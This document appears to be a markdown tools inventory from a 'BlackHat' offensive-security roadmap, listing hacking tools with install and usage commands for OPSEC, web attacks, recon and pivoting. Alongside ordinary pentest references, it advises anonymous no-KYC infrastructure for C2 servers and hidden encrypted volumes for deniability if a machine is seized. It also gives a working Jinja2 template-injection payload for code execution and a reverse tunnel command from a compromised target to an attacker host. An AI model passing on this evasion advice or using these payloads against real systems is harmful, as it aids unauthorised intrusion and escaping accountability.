




# Tools Inventory

**Author:** Sagar Biswas<br/>
**Version:** 1.0.0 · 2027 Edition<br/>

<div align="right">

#### Authoritative 2027 Edition · Beginner-Friendly · Complete · No Deprecated Tools

</div>

> **This is the single authoritative tools reference for the roadmap.**
> All previous tools sections (base, 2026 update, 2027 update) are consolidated here.
> Every tool listed is active and maintained as of 2027.
> Tools confirmed dead or superseded are in the [❌ Deprecated Stack](#-deprecated-stack--do-not-use) at the bottom.

>**Companion Roadmap Documents:**
> * **[Master Curriculum (Phases -1 to 6)](../phases/PHASE_-1.md)**: Zero-to-elite offensive engineering syllabus from foundational metal to apex operations.
> * **[BlackHat Long-Term Survival Tactics](../black-bag/BlackHat_Long-Term_Survival_Tactics.md)**: The authoritative operational security, physical tradecraft, and digital persona architecture manual.
> * **[Philosophy: The BlackHat Mindset](Philosophy_The_BlackHat_Mindset.md)**: Cognitive doctrine, adversarial assumption hunting, and primitive thinking mental models.
> * **[MITRE ATT&CK Quick Reference](MITRE_ATT&CK_Quick_Reference.md)**: Enterprise, ICS, and ATLAS technique mapping, detection signals, and attack chain blueprints.
> * **[Lab Setup Guide](Lab_Setup_Guide.md)**: Multi-tier hardware specifications and isolated enterprise/kernel lab blueprints.
> * **[Resources Aggregated](Resources_Aggregated.md)**: Curated books, research whitepapers, conference talk archives, and hands-on platforms.
> * **[FAQ](FAQ.md)**: Comprehensive operational and career transitions FAQ.
> * **[Final Word](Final_Word.md)**: Document verification statistics, researcher attributions, and horizon research roadmap.

---

## Table of Contents

1. [How to Read This Inventory](#how-to-read-this-inventory)
2. [Phase -1: OPSEC & Anonymization](#phase-neg1-opsec)
3. [Phase 0: Foundation Environment](#phase-0-foundation)
4. [Phase 1: Web Application Security](#phase-1-web)
5. [Phase 2: Recon, Network & Infrastructure](#phase-2-recon)
6. [Phase 3: Binary & System Exploitation](#phase-3-binary)
7. [Phase 4A/B: Implant, C2 & Loader Development](#phase-4ab-implant)
8. [Phase 4C: EDR / AV Evasion](#phase-4c-edr)
9. [Phase 4D: Vulnerability Research & 0-Day](#phase-4d-vr)
10. [Phase 4E: APT Persistence, Rootkits & Anti-Forensics](#phase-4e-apt)
11. [Phase 4F: Cloud, AiTM & Advanced Web](#phase-4f-cloud)
12. [Phase 4G: Hardware, SDR & Embedded](#phase-4g-hardware)
13. [Phase 4H: Supply Chain](#phase-4h-supply-chain)
14. [Phase 4I: Active Directory & Identity](#phase-4i-ad)
15. [AI / LLM Attack Surface](#ai-llm-attack-surface)
16. [Phase 5: GREATEST - Vulnerability Research & 0-Day Discovery](#phase-5-greatest)
17. [Phase 6: Special Operations - Physical, Social & Quantum](#phase-6-special-operations)
18. [Practice Platforms](#practice-platforms)
19. [Essential Resources](#essential-resources)
20. [❌ Deprecated Stack - Do Not Use](#deprecated-stack)

---

## How to Read This Inventory

Every tool entry shows:

```
Tool Name | LICENSE | Install/Link | What it does (plain language)
```

**License labels:**

| Label | Meaning |
|-------|---------|
| `FREE` | Completely free, always |
| `OSS` | Open source, free to use |
| `FREEMIUM` | Free tier available, paid tier for full access |
| `COMMERCIAL` | Paid. No meaningful free tier. Price noted where known |
| `FREE (hardware)` | Software is free, but requires hardware purchase |

**Phase tags** show the earliest phase where you will need the tool.
You do not need to install everything at once. Install tools when you reach their phase.

> 💡 **Beginner rule:** Start Phase -1 on day one. Phase 0 before everything else.
> Do not install Phase 4 tools until you are genuinely in Phase 4.
> A cluttered Kali with 200 tools you don't understand is slower than a clean one with 10 you do.

---

### 🧭 Roadmap Tool Progression Pipeline

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---


<a id="phase-neg1-opsec"></a>
## Phase -1: OPSEC & Anonymization

> **Before you touch any other tool in this list, build your OPSEC stack.**
> This is not optional and it is not the last step. It is the first step.
> The tools in this section protect you. Everything else just delivers capability.

---

### 🖥️ Operating Systems

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Tails OS** | `OSS` | https://tails.boum.org | Live OS that runs from USB, leaves zero trace on the host machine. Routes all traffic through Tor. Forget-by-design: shuts down, everything is gone. |
| **Whonix** | `OSS` | https://www.whonix.org | Two-VM setup: Gateway VM forces all traffic through Tor. Workstation VM does your work. If the Workstation is compromised, your real IP still cannot leak. |
| **Qubes OS** | `OSS` | https://www.qubes-os.org | Security-by-compartmentalization OS. Each "qube" is an isolated VM. Browse in one, code in another, OPSEC work in a third. A compromised qube cannot touch others. |
| **Kali Linux** | `OSS` | https://www.kali.org | Primary attacker platform. Debian-based. Pre-loaded with most tools in this inventory. Your main working OS for Phases 1–4. |
| **ParrotOS** | `OSS` | https://parrotsec.org | Lighter alternative to Kali. Good for older hardware or as a secondary VM. |

> 💡 **Beginner note (OS):** Kali in a VM is fine for Phases 0–2. For anything Phase 3+, use Kali on bare metal or in a dedicated lab setup. For real operations, Tails or Whonix. Never use your personal daily-driver machine.

---

### 🔒 Anonymization & Routing

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Tor Browser** | `OSS` | https://www.torproject.org | Routes your browser traffic through the Tor anonymity network. Three hops, exit node changes your apparent IP. Starting point for anonymous browsing. |
| **Mullvad VPN** | `COMMERCIAL` (~$5/mo) | https://mullvad.net | Strict no-logs VPN. Accepts Monero and cash. Account numbers, no email required. One of the few VPNs actually trusted by serious practitioners. |
| **Proton VPN** | `FREEMIUM` | https://protonvpn.com | Swiss jurisdiction, audited no-logs policy. Free tier is slow but functional. Paid tier ($5/mo) is solid for layered OPSEC (VPN → Tor). |
| **I2P** | `OSS` | https://geti2p.net | Alternative anonymous network. Peer-to-peer, no single directory. Slower than Tor but better for certain use cases (file sharing, hidden services within I2P). |

> 💡 **Beginner note (VPN + Tor):** VPN alone is not anonymity. VPN just shifts who sees your traffic, from your ISP to the VPN provider. For real anonymity: VPN → Tor → target. Mullvad is the starting recommendation because they accept Monero, require no email, and have never logged.

---

### 🔐 Device & Storage Security

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **VeraCrypt** | `OSS` | https://veracrypt.fr | Creates encrypted containers (files that act as encrypted drives) and full-disk encryption. AES-256 + Twofish + Serpent cascade. Store all sensitive work here. |
| **GrapheneOS** | `OSS` | https://grapheneos.org | Hardened Android for Google Pixel devices. Removes Google Play Services. Used for operational phones. Superior to iOS for OPSEC control. |

> 💡 **Beginner note (VeraCrypt):** Create an encrypted container for your wordlists, payloads, and any sensitive work files. Never store these in plaintext on your attacker machine. If your machine is seized, the encrypted container gives you plausible deniability with a hidden volume.

---

### 💬 Encrypted Communications

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Signal** | `OSS` | https://signal.org | Industry standard for E2E encrypted messaging and calls. Sealed sender, disappearing messages. Use for anything sensitive. |
| **Element (Matrix)** | `OSS` | https://element.io | Federated E2E encrypted chat over the Matrix protocol. Self-hostable. Good alternative to Discord for team comms without central server dependence. |
| **Briar** | `OSS` | https://briarproject.org | Works over Tor, Bluetooth, or Wi-Fi with no central server. Functions offline. Designed for activists and journalists but valuable for no-server comms. |

---

### 💰 Financial OPSEC

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Feather Wallet** | `OSS` | https://featherwallet.org | Desktop Monero wallet. Lightweight, no full blockchain download needed. Monero is the only mainstream cryptocurrency with serious privacy (ring signatures, stealth addresses, RingCT). |
| **Haveno** | `OSS` | https://haveno.exchange | Decentralized peer-to-peer Monero exchange. No KYC. LocalMonero replacement after LocalMonero closed November 2024. |

---

### 🔍 Metadata Removal

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **MAT2** | `OSS` | https://0xacab.org/jvoisin/mat2 | Removes metadata from files: PDFs, images, office documents, audio. `mat2 filename` strips everything. Install: `sudo apt install mat2` |
| **ExifTool** | `OSS` | https://exiftool.org | Read, write, and remove EXIF metadata from images and files. Also useful for forensics. `exiftool -all= filename.jpg` removes all. |
| **Dangerzone** | `OSS` | https://dangerzone.rocks | Converts untrusted documents (PDFs, Office files) into safe PDFs by sandboxing them in a container. Use before opening any untrusted document. Install: https://dangerzone.rocks/#installation |

---

### 🌐 Infrastructure / Redirectors

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Njalla** | `COMMERCIAL` (~$15/mo VPS) | https://njal.la | Privacy-focused domain registrar and VPS provider. Accepts Monero. No real-name registration. Use for C2 infrastructure and anonymous domains. |
| **Certbot** | `OSS` | https://certbot.eff.org | Automates Let's Encrypt SSL certificate issuance. All C2 infrastructure should run HTTPS. `certbot --nginx -d yourdomain.com` |
| **Apache mod_rewrite / Nginx** | `OSS` | System package | C2 redirectors. Sit in front of your C2 server, forward only valid beacon traffic, block everything else. Prevent blue teams from directly reaching your C2. |
| **Cloudflare Workers** | `FREEMIUM` | https://workers.cloudflare.com | Serverless functions used as Domain Fronting and C2 redirectors. Free tier. Traffic appears to come from Cloudflare IPs. |

---

<a id="phase-0-foundation"></a>
## Phase 0: Foundation Environment

> Set up your lab before you start learning. You cannot learn exploitation on production systems.
> Build a local lab: Kali attacker + Windows 11 target + Windows Server 2022 (AD) + Ubuntu 22.04 target.

---

### 🖥️ Virtualization

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **VirtualBox** | `OSS` | https://www.virtualbox.org | Free hypervisor. Create and run your lab VMs. Full snapshots. Cross-platform. Starting point for most beginners. |
| **VMware Workstation Pro** | `FREE` (personal use since 2024) | https://www.vmware.com/products/workstation-pro.html | Better performance than VirtualBox for nested VMs and kernel debugging. VMware made it free for personal use in 2024. Preferred for Phase 3+ work. |

---

### 🔧 Debugging & Analysis (Foundation Level)

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **GDB** | `OSS` | `sudo apt install gdb` | GNU Debugger. The foundation of Linux binary analysis. Set breakpoints, inspect memory, step through instructions. Learn this before pwntools. |
| **GEF** (GDB Enhanced Features) | `OSS` | https://gef.blah.cat | GDB plugin that adds color output, heap visualization, register context, and exploit development helpers. Install: `bash -c "$(curl -fsSL https://gef.blah.cat/sh)"` |
| **pwndbg** | `OSS` | https://github.com/pwndbg/pwndbg | Alternative GDB plugin. Better heap chunk visualization than GEF (use when debugging heap exploits). Install: `git clone https://github.com/pwndbg/pwndbg && ./setup.sh` |
| **strace** | `OSS` | `sudo apt install strace` | Traces system calls a process makes. See exactly what a binary reads, writes, opens, and executes. `strace ./binary` |
| **ltrace** | `OSS` | `sudo apt install ltrace` | Traces library calls (libc functions: malloc, strcpy, etc.). Useful for understanding binary behavior before reading assembly. |
| **readelf** | `OSS` | built into binutils | Display ELF binary headers, sections, symbols. `readelf -a binary` tells you everything about the file structure before you open a disassembler. |
| **objdump** | `OSS` | built into binutils | Disassemble and display ELF object files. `objdump -d -M intel binary` for quick disassembly without opening Ghidra. |
| **strings** | `OSS` | built into binutils | Extract printable strings from a binary. First step of any static analysis. `strings binary | grep -i pass` |
| **file** | `OSS` | built into coreutils | Identify file type. Always run `file target` before anything else. Tells you architecture, linking, stripped status. |

> 💡 **Beginner note (GEF vs pwndbg):** Pick one and learn it deeply rather than switching constantly. GEF has a cleaner interface for general exploit development. pwndbg has better heap visualization. Most beginners start with GEF, switch to pwndbg when doing heap challenges, and keep both installed. They don't conflict - just set your default in `.gdbinit`.

---

### 🐍 Language Environments

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Python 3** | `OSS` | `sudo apt install python3 python3-pip` | Primary scripting language. Every tool you'll write in Phases 0–3 starts here. Learn this first. |
| **pip3** | `OSS` | included with Python 3 | Python package installer. `pip3 install pwntools` - you'll type this command a hundred times. |
| **gcc / g++** | `OSS` | `sudo apt install build-essential` | C and C++ compilers. Your implants, exploits, and shellcode will be compiled here. |
| **Rust toolchain** | `OSS` | https://rustup.rs (`curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh`) | Rust compiler + cargo package manager. Phase 4A offensive tooling increasingly written in Rust. Learn C first, add Rust at Phase 4A. |
| **Go** | `OSS` | https://go.dev/dl/ | Go language. Sliver C2, some offensive tools, and fast CLI utilities written in Go. `sudo apt install golang` |

---

<a id="phase-1-web"></a>
## Phase 1: Web Application Security

> The PortSwigger Web Security Academy (free) is your primary learning resource for this phase.
> Every tool below maps to labs you will complete there.

---

### 🌐 Core Web Proxy

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Burp Suite Community** | `FREE` | https://portswigger.net/burp/communitydownload | HTTP proxy that intercepts traffic between your browser and target. Inspect, modify, and replay every request. The single most important web security tool. |
| **Burp Suite Professional** | `COMMERCIAL` (~$449/yr) | https://portswigger.net/burp/pro | Full version adds automated scanner, Collaborator (OOB server), and advanced intruder. Not required for beginners - Community is enough for Phases 1–2. |
| **OWASP ZAP** | `OSS` | https://www.zaproxy.org | Free open-source alternative to Burp. Slightly less intuitive but fully capable. Good secondary tool or Burp replacement. |
| **Caido** | `FREEMIUM` | https://caido.io | Modern, Rust-based HTTP proxy. Faster than Burp, cleaner UI. Growing adoption. Free tier is functional. |

> 💡 **Beginner note (Burp Suite):** Configure FoxyProxy in Firefox to route traffic through Burp's proxy at `127.0.0.1:8080`. Install Burp's CA certificate in Firefox so you can intercept HTTPS. This is your workspace for every web attack. Learn it before any other web tool.

---

### 📁 Directory & Content Discovery

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **feroxbuster** | `OSS` | https://github.com/epi052/feroxbuster (`curl -sL https://raw.githubusercontent.com/epi052/feroxbuster/main/install-nix.sh \| bash`) | Fast recursive directory brute-forcer written in Rust. Unlike gobuster, it recursively discovers subdirectories automatically. **Use this over gobuster for directory enumeration.** |
| **ffuf** | `OSS` | https://github.com/ffuf/ffuf (`sudo apt install ffuf`) | Fast web fuzzer. Works for directories, parameters, headers, vhosts, POST bodies - anything with a placeholder. More flexible than feroxbuster. Combine both. |
| **gobuster** | `OSS` | `sudo apt install gobuster` | Directory and DNS brute-force. Non-recursive, but well-documented and found in most walkthroughs. Learn it, but prefer feroxbuster for active work. |

> 💡 **Beginner note (feroxbuster vs ffuf):** feroxbuster is better for deep directory enumeration (recursive, auto-wildcard filtering). ffuf is better for parameter fuzzing, virtual host discovery, and anything requiring precise payload injection. In practice, use both: feroxbuster for initial recon, ffuf for targeted fuzzing.
>
> Quick reference:
> ```bash
> # Directory enumeration
> feroxbuster -u http://target.com -w /usr/share/seclists/Discovery/Web-Content/common.txt
>
> # Parameter fuzzing
> ffuf -u "http://target.com/page?FUZZ=test" -w /usr/share/seclists/Discovery/Web-Content/common.txt
>
> # Vhost discovery
> ffuf -u http://target.com -H "Host: FUZZ.target.com" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
> ```

---

### 💉 Injection & Exploitation

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **sqlmap** | `OSS` | `sudo apt install sqlmap` | Automatic SQL injection detection and exploitation. Detects injection points, dumps databases, reads files, sometimes gets OS shell. `sqlmap -u "http://target.com/page?id=1" --dbs` |
| **tplmap** | `OSS` | https://github.com/epinna/tplmap (`git clone && pip3 install -r requirements.txt`) | Server-Side Template Injection (SSTI) detection and exploitation. Supports Jinja2, Twig, Smarty, Freemarker, Mako, and 15 more engines. `python3 tplmap.py -u "http://target.com/page?name=*"` |
| **XSStrike** | `OSS` | https://github.com/s0md3v/XSStrike | XSS scanner with context-aware payload generation. More intelligent than basic payload lists. |
| **dalfox** | `OSS` | https://github.com/hahwul/dalfox (`go install github.com/hahwul/dalfox/v2@latest`) | Modern XSS scanner. Parameter analysis, DOM XSS detection, blind XSS support. Fast. Pipe targets from other tools into it. |
| **NoSQLMap** | `OSS` | https://github.com/codingo/NoSQLMap | NoSQL injection (MongoDB, CouchDB, Redis) exploitation tool. |

> 💡 **Beginner note (SSTI):** Server-Side Template Injection means user input gets rendered by a template engine, executing your code on the server. Test with `{{7*7}}` - if the response shows `49`, you have SSTI. tplmap automates this. Manually, a Jinja2 payload like `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}` often gives RCE. Learn the manual technique first, then let tplmap assist.

---

### 🔑 JWT Attacks

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **jwt_tool** | `OSS` | https://github.com/ticarpi/jwt_tool (`pip3 install jwt_tool` or clone) | JWT testing toolkit. Tests for algorithm confusion (RS256→HS256), `none` algorithm bypass, JKU/X5U injection, `kid` parameter injection. `python3 jwt_tool.py TOKEN -M at` runs all attacks. |
| **hashcat** (for JWT cracking) | `OSS` | `sudo apt install hashcat` | Crack HS256 JWTs with weak secrets. Mode: `hashcat -a 0 -m 16500 TOKEN wordlist.txt` |

> 💡 **Beginner note (JWT):** JWTs are three base64url-encoded sections separated by dots: header.payload.signature. The most common attack is algorithm confusion: if a server uses RS256 (asymmetric), trick it into accepting HS256 (symmetric) with the public key as the HMAC secret. jwt_tool automates this. Always test `alg: none` - many old implementations accept it.

---

### 📡 Out-of-Band & SSRF

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **interactsh** | `OSS` | https://github.com/projectdiscovery/interactsh (`go install` or use web: https://app.interactsh.com) | Out-of-band interaction server. Get a unique URL/subdomain that logs DNS lookups, HTTP requests, SMTP. Essential for blind SSRF, XXE, blind command injection. |
| **Burp Collaborator** | `COMMERCIAL` (included in Pro) | Built into Burp Suite Professional | Burp's OOB server. Same concept as interactsh but integrated into Burp workflow. Community users: use interactsh. |
| **ssrfmap** | `OSS` | https://github.com/swisskyrepo/SSRFmap | SSRF exploitation automation. Tests common internal endpoints, AWS metadata, GCP metadata, file:// reads. |

---

### 🔀 HTTP Request Smuggling

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **smuggler** | `OSS` | https://github.com/defparam/smuggler (`pip3 install smuggler`) | Detects CL.TE, TE.CL, and TE.TE HTTP request smuggling vulnerabilities. `python3 smuggler.py -u https://target.com` |
| **Burp Suite Pro (HTTP Request Smuggler extension)** | `COMMERCIAL` | BApp Store | The most complete HRS testing tool. Also accessible via community with manual techniques from PortSwigger Academy's HRS labs (free). |

---

### 🔬 Scanning & Automation

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **nuclei** | `OSS` | https://github.com/projectdiscovery/nuclei (`go install github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest`) | Template-based vulnerability scanner. Over 7,000 community templates covering CVEs, misconfigurations, default credentials, exposures. `nuclei -u https://target.com` runs all templates. Fast and extensible. |
| **nikto** | `OSS` | `sudo apt install nikto` | Web server scanner for common misconfigurations, outdated software, dangerous files. Noisy but thorough. `nikto -h http://target.com` |

---

### 🧪 API Testing

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Postman** | `FREEMIUM` | https://www.postman.com | GUI for building, sending, and organizing API requests. Good for manual API exploration before automation. |
| **ParamSpider** | `OSS` | https://github.com/devanshbatham/ParamSpider | Mines parameters from web archives (Wayback Machine) for a target domain. Finds hidden parameters that may have never been tested. Feed output to ffuf. |
| **Arjun** | `OSS` | https://github.com/s0md3v/Arjun (`pip3 install arjun`) | HTTP parameter discovery tool. Finds hidden GET, POST, JSON, and XML parameters. |

---

<a id="phase-2-recon"></a>
## Phase 2: Recon, Network & Infrastructure

---

### 🔭 Reconnaissance & OSINT

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Shodan** | `FREEMIUM` | https://www.shodan.io | Search engine for internet-facing devices. Query syntax: `hostname:target.com port:443 country:US`. Free account gets limited results. Paid (~$17/mo) removes limits. |
| **Shodan CLI** | `OSS` | `pip3 install shodan` then `shodan init YOUR_API_KEY` | Command-line Shodan. Script reconnaissance: `shodan search --fields ip_str,port,org "product:nginx country:US"` |
| **FOFA** | `FREEMIUM` | https://fofa.info | Chinese alternative to Shodan. Better coverage of East Asian infrastructure. Different indexed data - use alongside Shodan for complete picture. |
| **Censys** | `FREEMIUM` | https://search.censys.io | Internet-wide scanning data. Good for certificate transparency analysis and host discovery. `search.censys.io` free tier is useful. |
| **theHarvester** | `OSS` | `sudo apt install theharvester` | Gathers emails, subdomains, hosts, employee names from public sources (Google, Bing, LinkedIn, Shodan). `theHarvester -d target.com -b all` |
| **recon-ng** | `OSS` | `sudo apt install recon-ng` | Full-featured OSINT framework with modules (similar to Metasploit for OSINT). Install modules: `marketplace install all`. Build structured recon workflows. |
| **SpiderFoot** | `OSS` | https://github.com/smicallef/spiderfoot (`pip3 install spiderfoot`) | Automated OSINT aggregator. Runs 200+ modules, maps relationships between IPs, emails, domains, usernames. Web UI for visualization. |
| **Maltego** | `FREEMIUM` | https://maltego.com | Link analysis platform for OSINT. Visualize relationships between entities. Free Community Edition is limited but useful. |
| **OSINT Framework** | `FREE` (web) | https://osintframework.com | Categorized directory of OSINT tools and resources. Not a tool itself: a map of what exists for every OSINT target type. Bookmark this. |

---

### 🌐 Subdomain & Asset Discovery

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **subfinder** | `OSS` | https://github.com/projectdiscovery/subfinder (`go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest`) | Passive subdomain enumeration from 50+ sources (certificate transparency, DNS records, threat intel). Fast, quiet. `subfinder -d target.com -o subs.txt` |
| **amass** | `OSS` | https://github.com/owasp-amass/amass (`go install github.com/owasp-amass/amass/v4/...@master`) | Deep attack surface mapping. Active + passive subdomain enum, DNS brute-force, ASN enumeration. More comprehensive than subfinder but slower. `amass enum -d target.com` |
| **assetfinder** | `OSS` | https://github.com/tomnomnom/assetfinder (`go install github.com/tomnomnom/assetfinder@latest`) | Fast passive subdomain finder. Simpler than amass. Good for quick recon. Combine with subfinder for coverage. |

> 💡 **Beginner note (recon pipeline):** Chain Project Discovery tools for a full recon pipeline:
> ```bash
> # 1. Subdomain discovery
> subfinder -d target.com -o subs.txt
>
> # 2. Probe which ones are alive
> cat subs.txt | httpx -silent -o live.txt
>
> # 3. Scan live hosts for vulnerabilities
> nuclei -l live.txt -o results.txt
> ```
> This three-command chain replaces hours of manual work.

---

### 📡 HTTP Probing & Fingerprinting

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **httpx** | `OSS` | https://github.com/projectdiscovery/httpx (`go install github.com/projectdiscovery/httpx/cmd/httpx@latest`) | Fast HTTP probing toolkit. Takes a list of subdomains/IPs and identifies which are alive, their status codes, titles, technologies, redirects. `cat subs.txt \| httpx -silent -title -tech-detect` |
| **whatweb** | `OSS` | `sudo apt install whatweb` | Web technology fingerprinting. Detects CMS, server software, JavaScript libraries, analytics. `whatweb http://target.com` |
| **wafw00f** | `OSS` | `pip3 install wafw00f` | Detect which WAF (Web Application Firewall) is protecting a target. Know what you're dealing with before launching attacks. `wafw00f https://target.com` |

---

### 🔍 Network Scanning

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Nmap** | `OSS` | `sudo apt install nmap` (or https://nmap.org) | The network scanner. Port scanning, service/version detection, OS fingerprinting, and NSE scripting for vulnerability detection. `nmap -sC -sV -oA scan target` |
| **Masscan** | `OSS` | `sudo apt install masscan` | Fastest TCP port scanner. Scans the entire internet in 6 minutes. Use for large scope, then feed results into Nmap for service detection. `masscan -p1-65535 --rate 10000 target` |
| **rustscan** | `OSS` | https://github.com/RustScan/RustScan | Rust-based port scanner. Faster than Nmap for initial port discovery. Pipes results automatically to Nmap. `rustscan -a target -- -sC -sV` |

---

### 🕸️ Network Analysis

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Wireshark** | `OSS` | `sudo apt install wireshark` | Packet capture and protocol analysis with GUI. See exactly what's on the wire. Essential for understanding protocols before attacking them. |
| **tcpdump** | `OSS` | `sudo apt install tcpdump` | Command-line packet capture. Faster and scriptable. `tcpdump -i eth0 -w capture.pcap` |
| **Responder** | `OSS` | https://github.com/lgandx/Responder (`sudo apt install responder`) | Poisons LLMNR, NBT-NS, and MDNS broadcast requests on a local network to capture NTLMv2 hashes. Essential for internal network attacks. `sudo responder -I eth0 -dwv` |

---

### 🔀 Pivoting & Tunneling

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Ligolo-ng** | `OSS` | https://github.com/nicocha30/ligolo-ng | **The 2027 standard for pivoting.** Creates a TUN interface on your attacker machine. Traffic to internal network routes through agent on compromised host automatically. No socks5 proxychains needed. More reliable and faster than alternatives. |
| **Chisel** | `OSS` | https://github.com/jpillora/chisel | HTTP tunnel over SSH. Good for environments where only HTTP/HTTPS egress is allowed. `chisel server --port 8080 --reverse` on attacker, `chisel client attacker:8080 R:socks` on target. |
| **rpivot** | `OSS` | https://github.com/klsecservices/rpivot | Reverse SOCKS proxy. Works when target cannot initiate connections directly to your machine. |
